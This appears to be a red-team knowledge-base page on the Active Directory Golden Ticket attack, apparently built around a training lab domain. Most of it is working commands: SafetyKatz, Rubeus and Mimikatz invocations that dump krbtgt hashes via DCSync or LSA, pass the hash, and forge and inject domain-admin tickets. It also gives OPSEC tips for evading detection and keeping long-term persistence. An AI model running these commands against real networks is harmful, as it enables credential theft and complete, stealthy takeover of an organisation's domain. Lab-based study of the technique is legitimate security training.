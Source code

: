 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Golden Ticket

Golden Tickets are **forged Kerberos Ticket Granting Tickets (TGTs)** created using the NTLM hash or AES keys of the `krbtgt` account—an account responsible for signing all TGTs in an Active Directory (AD) domain. With this secret, attackers can generate valid TGTs for any user, including Domain Admins, effectively enabling **full domain impersonation**. Unlike Silver Tickets, which target service tickets, Golden Tickets provide domain-wide access and persistence.

This technique does not require domain membership, elevated privileges on the local host, or ongoing access to the domain controller (DC) after the `krbtgt` secret has been obtained. Since the `krbtgt` account password rarely changes, Golden Tickets remain a reliable and stealthy post-exploitation method even after Domain Admin credentials rotate.

<figure><img src="../../../.gitbook/assets/golden_tickets.png" alt=""><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

### OPSEC and Persistence

Golden Tickets are essentially a Kerberos-based Overpass-the-Hash. Forged TGTs are accepted by the Key Distribution Center (KDC) as valid because they're signed with the `krbtgt` secret. The only requirement is network access to the Kerberos port (88) on the DC. The attack can be performed from non-domain-joined machines.

Although DA credentials grant full access, they must follow the domain password policy and are likely to change. In contrast, the `krbtgt` account password is static by default, making Golden Tickets an ideal long-term persistence method.

Golden Ticket attacks provide red teamers with stealthy, persistent access at the domain level. They bypass typical credential hygiene defenses, work from non-domain assets, and can survive across password resets—unless the `krbtgt` password is rotated. For long-term access and minimal detection, prefer **AES keys over NTLM** and **use DCSync** to reduce footprint on DCs.

## Tools

{% tabs %}
{% tab title="krbtgt creds" %}
Create a session in the context of the compromised DA with [SafetyKatz](../ad-tools/safetykatz.md) or [Rubeus](../ad-tools/rubeus.md):

{% code overflow="wrap" %}
```powershell
# Overpass-the-Hash with SafetyKatz
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"

# Overpass-the-Hash with Rubeus
.\Rubeus.exe asktgt /user:svcadmin /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

Next, there are two common ways to extract `krbtgt` credentials:

{% hint style="warning" %}
**OPSEC**: The DCSync method is preferred as it extracts both the AES256 key and NT hash and it does not touch the DC. The local dump method extracts just the NTLM hash and executes code on the DC.
{% endhint %}

```powershell
# DCSync (preferred, no code execution on the DC)
.\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt"

# Local dump on a DC (requires code execution)
.\SafetyKatz.exe '"lsadump::lsa /patch"'
```
{% endtab %}

{% tab title="GT Attack" %}
Previous tickets can be purged before executing the GT attack:

```powershell
# Delete any existing Kerberos tickets
.\mimikatz.exe "kerberos::purge" "exit"
```

[Rubeus](../ad-tools/rubeus.md) can be used to generate the GT-forging command from a non-elevated shell. The below command makes three queries to the DC to retrieve the following information:

1. Flags for the specified user
2. `/groups`, `/pgid`, `/minpassage` and `/maxpassage`
3. `/netbios` of the current domain

{% hint style="warning" %}
**OPSEC**:&#x20;

* Target an active DA account and not just the default account; the latter may be dormant or act as a honeypot.
* Key parameters (SID, groups, UAC flags, etc.) can be pulled dynamically or specified manually for better stealth.
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Generate the ticket-forging command
.\Rubeus.exe golden /aes256:<aes256-key> /sid:<domain-SID> /ldap /user:Administrator /printcmd
```
{% endcode %}

Generate the Golden Ticket impersonating the target user:

{% code overflow="wrap" %}
```powershell
# GT attack with Rubeus
C:\AD\Tools\Rubeus.exe golden
/aes256:<aes256key>
8 /user:Administrator /id:500 /pgid:513
/domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-
3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1
/logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORPDC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD
/ptt

# GT attack with Mimikatz
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<domain-SID> /krbtgt:<NThash> /ptt" "misc::cmd" "exit"
```
{% endcode %}

| `/aes256:<key>`           | AES256 key of the `krbtgt` account used to sign the forged TGT.                                 |
| ------------------------- | ----------------------------------------------------------------------------------------------- |
| `/user:<username>`        | Target username for the forged TG.                                                              |
| `/id:<RID>`               | Relative Identifier (RID) of the user. Default is `500` for `Administrator`.                    |
| `/pgid:<GroupID>`         | Primary Group ID. Default is `513` (`Domain Users`).                                            |
| `/groups:<GIDs>`          | Comma-separated list of group IDs to include (e.g., `512` for Domain Admins, `544` for Admins). |
| `/domain:<FQDN>`          | Fully Qualified Domain Name of the target domain.                                               |
| `/sid:<Domain SID>`       | Security Identifier of the domain.                                                              |
| `/pwdlastset:<timestamp>` | Timestamp of the user's last password set event.                                                |
| `/minpassage:<days>`      | Minimum password age in days. A small value is often used for forged tickets.                   |
| `/logoncount:<count>`     | Logon count for the user.                                                                       |
| `/netbios:<NetBIOS name>` | NetBIOS name of the domain.                                                                     |
| `/dc:<DC FQDN>`           | FQDN of the Domain Controller.                                                                  |
| `/uac:<flags>`            | UserAccountControl flags.                                                                       |
| `/ptt`                    | "Pass-the-ticket" — injects the forged TGT into the current session.                            |
{% endtab %}
{% endtabs %}
